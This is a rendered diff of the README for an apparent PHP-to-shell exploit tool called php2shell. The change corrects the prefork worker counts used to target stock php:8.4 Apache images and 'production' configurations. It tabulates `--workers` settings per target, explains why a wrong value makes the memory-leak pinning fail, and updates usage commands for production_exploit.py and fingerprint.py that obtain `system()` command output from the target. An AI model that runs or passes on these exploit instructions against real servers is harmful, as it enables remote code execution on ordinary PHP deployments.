

Before and after one commit to fipso/php2shell, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Clarify production worker counts
- stock php:8.4.*-apache and lab/prod-8426 are 150-worker targets

- single-worker lab MPM configs use --workers 1

- session chain uses --rotate instead of --workers

- fix stock-target examples that incorrectly used --workers 1

````diff
--- a/README.md
+++ b/README.md
@@ -296,6 +296,24 @@ aarch64 offsets are present but have not been verified on real ARM hardware.
 Concurrent-load behavior is still under test; the current pinning assumes
 requests are not competing for the final free worker.
 
+### Worker count
+
+`--workers` must equal the target's total prefork worker count, not the number
+of connections you want to leave free:
+
+| Target | Effective `MaxRequestWorkers` | `--workers` |
+|---|---:|---:|
+| stock `php:8.4.*-apache`, `lab/prod-8426` | 150 | **150** |
+| `lab/httpd.conf`, `lab/httpd-session.conf` | 1 | **1** |
+| custom two-worker test pool | 2 | **2** |
+| 8.5 session lab | 1 | session chain: use `--rotate`, no `--workers` |
+
+The stock Apache images are 150-worker targets. Using `--workers 1` there does
+not pin anything: A1 and B1 land on different children, B1 returns no leak, and
+the attempt fails. A single-worker value is correct only for a target whose MPM
+is actually configured with `MaxRequestWorkers 1`. For any other pool size, pass
+that exact size.
+
 ### Proof without a target file
 
 The B2 HTTP response carries `system()` output. Because the stock INI sets
@@ -305,7 +323,7 @@ response, and confirms the marker. No target file or host mount is required:
 
 ```bash
 python3 production_exploit.py \
-    --host 127.0.0.1 --port 1337 --workers 1 \
+    --host 127.0.0.1 --port 1337 --workers 150 \
     --version 8.4.26 --response-proof
 ```
 
@@ -366,7 +384,7 @@ then the session-chain profiles:
 ```bash
 python3 fingerprint.py \
     -u http://127.0.0.1:1337/index.php \
-    --arch x86_64 --workers 1 \
+    --arch x86_64 --workers 150 \
     --run --try-all --proof-file /path/to/out/p1
 ```
 
@@ -379,5 +397,5 @@ For response-only proof, add `--response-proof` and omit `--proof-file`:
 ```bash
 python3 fingerprint.py \
     -u http://127.0.0.1:1337/index.php \
-    --arch x86_64 --workers 1 --run --response-proof
+    --arch x86_64 --workers 150 --run --response-proof
 ```
````
Also changed, not shown: PROGRESS.md (+8 -4 lines).
